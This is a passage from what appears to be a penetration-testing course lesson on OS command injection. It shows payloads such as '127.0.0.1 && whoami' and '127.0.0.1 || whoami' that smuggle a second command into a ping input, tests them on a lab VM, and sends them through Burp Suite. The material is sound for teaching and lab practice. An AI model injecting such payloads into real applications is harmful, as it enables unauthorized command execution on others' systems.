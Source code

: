 ```bash
ping -c 1 127.0.0.1 && whoami
```

#### Running the Command Locally

As always, let's try to run the command on our Linux VM first to ensure that it is a working command:

```bash
21y4d@htb[/htb]$ ping -c 1 127.0.0.1 && whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=1.03 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.034/1.034/1.034/0.000 ms
21y4d
```

As we can see, the command does run, and we get the same output we got previously. Try to refer to the injection operators table from the previous section and see how the `&&` operator is different (if we do not write an IP and start directly with `&&`, would the command still work?).

Now, we can do the same thing we did before by copying our payload, pasting it in our HTTP request in Burp Suite, URL-encoding it, and then finally sending it.

![image](https://github.com/user-attachments/assets/71667aef-8d93-41cf-b000-6aa7be918a8e)

#### Example Response

As we can see, we successfully injected our command and received the expected output of both commands.

### OR Operator

Finally, let us try the OR (`||`) injection operator. The OR operator only executes the second command if the first command fails to execute. This may be useful for us in cases where our injection would break the original command without having a solid way of having both commands work. So, using the OR operator would make our new command execute if the first one fails.

If we try to use our usual payload with the `||` operator:

```
127.0.0.1 || whoami
```

The command executed would be:

```bash
ping -c 1 127.0.0.1 || whoami
```

#### Running the Command Locally

```bash
21y4d@htb[/htb]$ ping -c 1 127.0.0.1 || whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.635 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.635/0.635/0.635/0.000 ms
```
